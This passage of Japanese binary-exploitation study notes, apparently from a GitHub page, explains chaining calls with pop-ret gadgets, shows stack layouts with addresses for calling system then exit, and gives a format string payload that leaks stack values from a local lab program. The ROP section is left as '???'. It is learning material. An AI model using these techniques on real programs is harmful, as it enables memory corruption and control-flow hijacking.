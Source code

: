 ||||

そこで, popret gadgetの考え方を使う。
実行ファイルの中にpopを数回おこなった後にretするという処理(gadget)が多く現れる。これに倣い, 関数を呼び出すために使用した引数分popしてからretすればスタックポインタの位置をずらすことができそう。

|SP|内容|補足|
|:-:|:-:|:-:|
||下位のアドレス|0x00000000|
||関数1のアドレス||
||関数1のリターンアドレス|pop pop pop ret (pop3ret)|
|pop↓|関数1の引数1||
|pop↓|関数1の引数2||
|pop↓|関数1の引数3||
|ret→|関数2のアドレス||
||関数2のリターンアドレス||
||関数2の引数1||
||関数2の引数2||
||関数2の引数3||

これを活用して, プログラムを以上終了させるためにexitを呼び出してみる。

|SP|内容|address|補足|
|:-:|:-:|:-:|:-:|
||下位のアドレス|0x00000000||
||systemのアドレス|0xf7e16200||
||systemのリターンアドレス|0x080485cb|pop ret(popret)|
|pop↓|systemの引数1|0x0804a060|buffer|
|ret→|exitのアドレス|0xf7e093d0|exit|
||exitのリターンアドレス|0x08048539|main|
||exitの引数1|0|return 0|

## ROP(Return Oriented Programing)
???

# 書式文字列攻撃
`%p`は対応するスタックの値をvoid*型として16進数で表示する。
```bash
$ python -c "print('AAAA' + '%p.'*20)" | ./fsb 
AAAA0x80.0xf7fb15c0.0x80484e5.0xf7fdf409.0xf63d4e2e.0xf7ffdaf8.0x41414141.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.
secret=0x12345678
e
```

